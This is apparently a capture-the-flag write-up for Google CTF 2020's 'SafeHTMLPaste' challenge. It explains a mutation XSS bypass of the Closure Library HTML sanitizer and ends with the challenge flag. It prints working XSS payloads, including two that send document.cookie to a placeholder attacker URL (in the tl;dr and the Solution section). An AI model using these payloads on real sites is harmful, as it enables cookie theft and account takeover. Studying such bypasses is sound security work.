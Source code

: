 ```yaml
---
title: SafeHTMLPaste - Google CTF 2020
date: 2020-08-26
author: Az3z3l
author_url: https://twitter.com/Az3z3l
categories:
 - Web Exploitation
tags:
 - XSS
 - WYSIWYG
 - Closure Library sanitizer
 - GoogleCTF
---
```


**tl;dr**

+ Payload:  `a<math>b<xss style=display:block>c<style>d<a title="</style>"><img src onerror=document.location='https://your_url/?'.concat(document.cookie)>">e`

<!--more-->

**No of solves**: 10

**Solved by**: [Az3z3l](https://twitter.com/Az3z3l)

## Challenge Description

Share your html snippets with the world.

https://safehtmlpaste.web.ctfcompetition.com/



## Solution


We are given a text input area where we can enter any data we want without restrictions. We are also provided with an option to view the text we input. On first attempt,  we usually try `<script>alert()</script>` or `<img src=x onerror=alert()>` or the same thing using `svg` to test the existence of XSS. On viewing the notes, we see that all the tags are removed. The next thing I checked was if all the tags were removed or just the ones that might cause XSS. I tried `<b>` and other formatting tags and they were not removed and the resulting text was also formatted. So, we need some kind of payload that bypasses the filter and cause XSS. The text to be dispayled was sanitized by a `static/sanitize-min.js` file. On viewing that, we see that they use Closure Library for sanitizing.  


And this challenge is based on the bug in [Google’s Closure Library sanitizer](https://github.com/google/closure-library/tree/master/closure/goog/html/sanitizer).


What the sanitizer does is that it parses the user input and if it finds any tag/attribute that could be classified as dangerous, it removes those tags. And what we need to do is that create a payload that would seem to be harmless but mutates into a tag that could be used for XSS. This type of vulnerability is caused mostly when users copy and paste arbitrary content into online text editors(like gmail, CKEditor, Froala) that allows text formatting but not other tags. And thus the name `SafeHTMLPaste`. This [research](https://research.securitum.com/the-curious-case-of-copy-paste/) had most vulnerabilities related to this kind of mutation XSS. 


This first thing to do is check if it still had the vulnerability. 
```html
 <math><a style=1>
``` 


This will make the sanitizer throw a `Not an HTMLElement`. The bug is triggered whenever you have an element with style attribute inside `<math>` element.



The next thing would be to trigger XSS. This payload would trigger `alert()` and the next one would `exfiltrate cookies` to your server.  

``` html
<math><xss style=display:block>t<style>X<a title=""</style><img src onerror=alert(1)>">.<a>. 
```

``` html
a<math>b<xss style=display:block>c<style>d<a title="</style>"<img src onerror=document.location='https://your_url/?'.concat(document.cookie)>">e 
```


## WTH is happening?

``` html
<math><xss style=display:block>t<style>X<a title=""</style><img src onerror=alert(1)>">.<a>. 
```

When this is given as the note content, we get an alert when viewing it. On inspecting this content from /view we see this as the source in that place...

```html
<math><xss style="display:block">t<style>X<a title="" <="" style=""></a></style></xss></math><img src="" onerror="alert(1)">"&gt;.<a>.</a>
```

We see that the content we gave and the content we see(from inpect-element) is vastly different. This because of the [mutations](https://security.stackexchange.com/questions/46836/what-is-mutation-xss-mxss) caused by the browser. And due to these mutations, the payload which we enter is changed. This way, we bypass the sanitizer and cause XSS. 


## Update

Although this challenge does not require mutations for xss to be caused. We need to cause an exception in closure library, so that the entire payload we use is returned back. We can do that using style attribute within math tag(this is not allowed and closure library will throw an error).

```html
<math style=""><img src=x onerror=alert()>
```

Thanks to [netcat](https://twitter.com/0xBADCA7) for pointing this out.


## References

https://research.securitum.com/the-curious-case-of-copy-paste/

https://insomnihackdotme.files.wordpress.com/2015/03/copypest.pdf


## Flag

CTF{5c92edcb0bd1cd7d8bf8597f6ace0716}